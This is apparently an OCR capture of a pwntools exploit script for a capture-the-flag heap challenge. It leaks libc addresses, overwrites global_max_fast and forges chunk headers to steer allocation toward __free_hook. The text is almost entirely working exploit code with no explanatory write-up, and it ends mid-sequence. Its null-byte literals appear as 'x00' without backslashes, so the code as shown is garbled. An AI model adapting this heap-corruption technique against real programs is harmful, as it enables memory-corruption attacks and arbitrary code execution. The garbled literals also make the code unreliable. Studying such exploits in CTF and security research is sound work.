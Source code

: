 ```
libc_base = main_arena - 0x10 - 0x1E4C30
global_max_fast = libc_base + 0x1e7600
free_hook = libc_base + 0x1E75A8
initial = free_hook - 0xb68
log.info('heap : %s' % hex(heap))
log.info('libc_base : %s' % hex(libc_base))
log.info('main_arena : %s' % hex(main_arena))
log.info('global_max_fast : %s' % hex(global_max_fast))
log.info('free_hook : %s' % hex(free_hook))
payload = 'x00'*0x48+p64(0xa1)+ p64(heap-1344)+p64(global_max_fast -0x10) # fake 0xa0 small chunk
payload += 'x00'*0x80 + p64(0xa0) +p64(0x110)
Gong(0, 0xf0, payload)  
Shang(0)
Gong(0, 0x90)
log.info('global_max_fast changed') 
Shang(0)
Shang(1)

payload = 'x00'*0x1f8 + p64(0xe1)
Gong(1,0x248,payload)
Shang(1)
payload = 'x00'*0x48 + p64(0x201)
Gong(0,0xd0,payload)
payload = p64(0) + p64(0x201) + p64(0) + p64(0x191) + p64(0) + p64(0x181) + p64(0) + p64(0x171) + p64(0) + p64(0x161) + p64(0) + p64(0x151) + p64(0) + p64(0x141)
payload += p64(0) + p64(0x131) + p64(0) + p64(0x121) + p64(0) + p64(0x111) + p64(0) + p64(0x101) + p64(0) + p64(0xf1)
Gong(1,0x1f0,payload.rjust(0xf0,'x00'))
Shang(1)
payload = 'x00'*0x1f8 + p64(0x91)
Gong(1,0x248,payload)
Shang(1)
Shang(0)
payload = 'x00'*0x1f8 + p64(0x91) + p64(0x111)
Gong(1,0x248,payload)
Shang(1)
Gong(0,0x80, 'x00'*0x48 + p64(0x81))
payload = 'x00'*0x1f8 + p64(0x111)
Gong(1,0x248,payload)
Shang(1)
Shang(0)

payload = 'x00'*0x1f8 + p64(0x111) + p64(main_arena + 64)
Gong(0,0x248,payload)
Gong(1,0x100, 'x00'*0x48 + p64(0x201) + 'x00'*0x70 + p64(0) + p64(0x161) + p64(0) + p64(0x151) + p64(0) + p64(0x141) + p64(0) + p64(0x131))
Shang(0)
payload = 'x00'*0x1f8 + p64(0xe1)
Gong(0,0x248,payload)
Shang(0)
Shang(1)

top_chunk = initial + 0x10

payload = 'x00'*0x10 + p64(top_chunk) + 'x00'*0xc8 + p64(main_arena + 304) + p64(304*2 + 1)
Gong(0,0x100,payload)

payload = 'x00'*0x18 + p64(0x21)
Gong(1,304*2-0x10,payload)
Shang(0)

pad = main_arena + 0x60

```